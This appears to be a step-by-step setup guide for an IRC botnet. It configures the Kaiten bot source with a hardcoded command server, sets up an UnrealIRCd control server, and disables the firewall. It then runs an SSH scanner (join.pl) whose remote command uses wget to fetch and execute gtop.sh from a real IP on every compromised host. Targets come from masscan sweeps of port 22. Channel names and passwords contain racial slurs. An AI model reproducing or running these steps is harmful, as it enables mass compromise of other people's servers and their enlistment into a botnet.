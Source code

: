 
# ___     __________  ____ _______      _____ _______________.___.  ___     
# / _ \_/\ \______   \/_   |\      \    /  _  \\______   \__  |   | / _ \_/\ 
# \/ \___/  |    |  _/ |   |/   |   \  /  /_\  \|       _//   |   | \/ \___/ 
#           |    |   \ |   /    |    \/    |    \    |   \\____   |          
#           |______  / |___\____|__  /\____|__  /____|_  // ______|          
#                  \/              \/         \/       \/ \/                 

*NOTE: THE VPS MUST BE RUNNING CENTOS 6x x64bit
*RUN THESES FIRST OR IT WILL NOT WORK*

#
#  ___     .______________________    ___     
# / _ \_/\ |   \______   \_   ___ \  / _ \_/\ 
# \/ \___/ |   ||       _/    \  \/  \/ \___/ 
#          |   ||    |   \     \____          
#          |___||____|_  /\______  /          
#                      \/        \/           
#					  
					  
##################################
###########DEPENDENCIES###########
##################################

yum install perl
yum install gcc
yum install gcc-c++
yum intsall httpd
yum install tftp
yum install cpan
yum install nano
yum install unzip
yum install tar

##################################
########### SETTING UP ###########
########### THE KAITEN ###########
##################################

cd /var/www/html
upload NSA-edit.sh
upload g.c (kaiten.c)
edit g.c
find this line >>> #define CHAN "#Niggers"
replace "#Niggers" with the prefered channel name
find this line >>> #define KEY "nigg@s"
replace "nigg@s" with the prefered channel key
find this >>> char *servers[] = {
				"23.89.158.69",
				(void*)0
				};
<<<

##################################
########### SETTING UP ###########
########### THE UNREAL ###########
##################################

upload Unreal3.2.10.6.tar
tar -xf Unreal3.2.10.6.tar
cd Unreal3.2.10.6
upload the unrealircd.conf i gave you
edit the unrealircd.conf
find this line >>> listen *:443;
change "443" to "6667"
change the oper lines in the config file--these lines>>>
											oper "Christian"
											password "Christian#!";
											oper "" {
											password "DICKS";
											oper "Tragedy" {
											password "nigg@s123";
<<<<
save the changes to unrealircd.conf
run this command >>> ./Config
after that finishes run this command >>> make
then type >>> ./unreal start
if succesful should say this >>>

 _   _                      _ ___________  _____     _
| | | |                    | |_   _| ___ \/  __ \   | |
| | | |_ __  _ __ ___  __ _| | | | | |_/ /| /  \/ __| |
| | | | '_ \| '__/ _ \/ _` | | | | |    / | |    / _` |
| |_| | | | | | |  __/ (_| | |_| |_| |\ \ | \__/\ (_| |
 \___/|_| |_|_|  \___|\__,_|_|\___/\_| \_| \____/\__,_|
                           v3.2.10.6
                     using TRE 0.8.0 (BSD)

* Loading IRCd configuration ..
[warning] unrealircd.conf:61: listen with SSL flag enabled on a non SSL compile
* Configuration loaded without any problems ..
* Dynamic configuration initialized .. booting IRCd.
---------------------------------------------------------------------

<<<
then run this command >>> service iptables stop
then this >>> service httpd restart

#  ___       __________________     _____    _______    _______  _____________________   ___     
# / _ \_/\  /   _____/\_   ___ \   /  _  \   \      \   \      \ \_   _____/\______   \ / _ \_/\ 
# \/ \___/  \_____  \ /    \  \/  /  /_\  \  /   |   \  /   |   \ |    __)_  |       _/ \/ \___/ 
#           /        \\     \____/    |    \/    |    \/    |    \|        \ |    |   \          
#          /_______  / \______  /\____|__  /\____|__  /\____|__  /_______  / |____|_  /          
#                  \/         \/         \/         \/         \/        \/         \/    
#

##################################
###########AUTOMATICALY###########
##SETTING UP SCANNING DEPENDCIES##
##################################

cd /root/
upload Scanner.sh
type this command
sh Scanner.sh

##################################
#############MANUALLLY############
#######SETTING UP DEPENDCIES######
##################################

yum install gcc php-devel php-pear libssh2 libssh2-devel

pecl install -f ssh2 
enter 

touch /etc/php.d/ssh2.ini

echo extension=ssh2.so > /etc/php.d/ssh2.ini
yum install cpan -y
cpan force install Net::SSH2
cpan force install Parallel::ForkManager

##################################
######SETTING UP THE SCANNER######
##################################

cd /root/
mkdir bin
upload LRAB
unzip LRAB.zip
nano join.pl
look for wget line should look like this	>>>>	$channel->exec('cd /tmp ; wget http://153.92.127.63/gtop.sh ; chmod +x gtop.sh ; sh gtop.sh ; rm gtop.sh');
change the ip with your server ip
save it
now execute to exucute the lists
they are exucuted like this
perl join.pl <filename.txt>

#
#  ___        _____      _____   ____  __.___ _______    ________  .____    .___  _____________________________  ___     
# / _ \_/\   /     \    /  _  \ |    |/ _|   |\      \  /  _____/  |    |   |   |/   _____/\__    ___/   _____/ / _ \_/\ 
# \/ \___/  /  \ /  \  /  /_\  \|      < |   |/   |   \/   \  ___  |    |   |   |\_____  \   |    |  \_____  \  \/ \___/ 
#          /    Y    \/    |    \    |  \|   /    |    \    \_\  \ |    |___|   |/        \  |    |  /        \          
#          \____|__  /\____|__  /____|__ \___\____|__  /\______  / |_______ \___/_______  /  |____| /_______  /          
#                  \/         \/        \/           \/        \/          \/           \/                  \/           
#

##################################
#########MAKING NEW LISTS#########
##################################
***you use mass scan to create new lists***
**NOTE: YOU MUST HAVE A KVM SERVER FOR MASSCAN TO WORK***


./masscan 173.0.63.196/8 -p22 --rate 10000 -oG ips.txt
grep -oP '(?<=Host: )\S*' ips.txt > mfu.txt

./update 1000

Wait for that to finish

perl w.pl vulns.txt